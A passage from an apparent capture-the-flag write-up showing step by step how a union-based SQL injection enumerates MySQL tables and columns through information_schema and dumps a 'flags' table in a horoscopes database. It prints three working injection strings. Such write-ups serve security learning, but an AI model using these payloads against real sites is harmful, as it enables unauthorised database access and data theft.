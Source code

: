 To get around this, we can use SQL's `limit` and `offset` statements to select the exact row we want. Let's try grabbing the next row:

`" union select concat(concat(table_schema, '.'), table_name) from information_schema.tables where table_schema != 'mysql' and table_schema != 'information_schema' limit 1 offset 1;#`

![Success!](/resources/ists15/18.PNG)

Now we're cooking with gas! This looks like the table containing our flag. Let's take a look inside and list out the table's columns with the following injection:

`" union select column_name from information_schema.columns where table_schema = 'horoscopes' and table_name = 'flags' limit 1 offset 1;#`

![A column named flag](/resources/ists15/19.PNG)

A column named `flag`... this has gotta be it! Let's dump the `flag` column:

`" union select flag from horoscopes.flags limit 1 offset 1;#`
